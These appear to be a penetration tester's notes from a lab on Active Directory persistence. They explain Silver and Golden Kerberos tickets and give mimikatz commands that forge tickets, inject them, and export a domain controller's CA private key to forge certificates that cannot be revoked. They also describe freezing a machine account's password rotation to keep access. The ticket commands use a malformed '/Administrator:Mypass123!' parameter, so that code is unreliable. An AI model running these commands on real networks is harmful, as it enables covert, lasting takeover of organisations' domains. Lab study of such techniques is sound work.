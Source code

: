 * The generated TGS is signed by the machine account of the host we are targeting.
* The main difference between Golden and Silver Tickets is the number of privileges we acquire. If we have the KRBTGT account's password hash, we can get access to everything. With a Silver Ticket, since we only have access to the password hash of the machine account of the server we are attacking, we can only impersonate users on that host itself. The Silver Ticket's scope is limited to whatever service is targeted on the specific server.
* Since the TGS is forged, there is no associated TGT, meaning the DC was never contacted. This makes the attack incredibly dangerous since the only available logs would be on the targeted server. So while the scope is more limited, it is significantly harder for the blue team to detect.
* Since permissions are determined through SIDs, we can again create a non-existing user for our silver ticket, as long as we ensure the ticket has the relevant SIDs that would place the user in the host's local administrators group.
* The machine account's password is usually rotated every 30 days, which would not be good for persistence. However, we could leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account. Thereby ensuring the machine account remains static and granting us persistence on the machine.
* While only having access to a single host might seem like a significant downgrade, machine accounts can be used as normal AD accounts, allowing you not only administrative access to the host but also the means to continue enumerating and exploiting AD as you would with an AD user account.

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Golden Ticket -> /Administrator is the user to impersonate (CANNOT be faked), /domain the FQDN
mimikatz # kerberos::golden /Administrator:Mypass123! /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
# Confirm the ticket is working by running dir against the DC
dir \\thmdc.za.tryhackme.loc\c$\

# Silver Ticket -> /rc4 is NTLM hash of machine (MACHINE01$) /target is the target server has the format host.sub.domain.com, /service can be CIFS since it allows file access
mimikatz # kerberos::golden /Administrator:Mypass123! /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
# Confirm the ticket is working by running dir against that specific host/machine
dir \\thmserver1.za.tryhackme.loc\c$\
```
{% endcode %}

NOTE: **The techniques discussed from this point forward are incredibly invasive and hard to remove. Even if you have signoff on your red team exercise to perform these techniques, you must take the utmost caution when performing these techniques. In real-world scenarios, the exploitation of most of these techniques would result in a full domain rebuild. Make sure you fully understand the consequences of using these techniques and only perform them if you have prior approval on your assessment and they are deemed necessary. In most cases, a red team exercise would be dechained at this point instead of using these techniques. Meaning you would most likely not perform these persistence techniques but rather simulate them.**

## Certificates

{% code overflow="wrap" fullWidth="true" %}
```powershell
# We could simply steal the private key of the root CA's certificate to generate our own certificates and since CA never issued them, blue team cannot revoke them.
https://pentestlab.blog/2021/11/15/golden-certificate/
# Extracting the CA Private Key -> if the private key is not protected through hardware-based protection methods
# First we see the certificates stored on the DC:
mimikatz # crypto::certificates /systemstore:local_machine
# We should find a CA certificate on the DC. Now with Mimikatz we patch memory to make these keys exportable
mimikatz # privilege::debug
mimikatz # crypto::capi
mimikatz # crypto::cng
# With these services patched, we export the certificate
mimikatz # crypto::certificates /systemstore:local_machine /export
```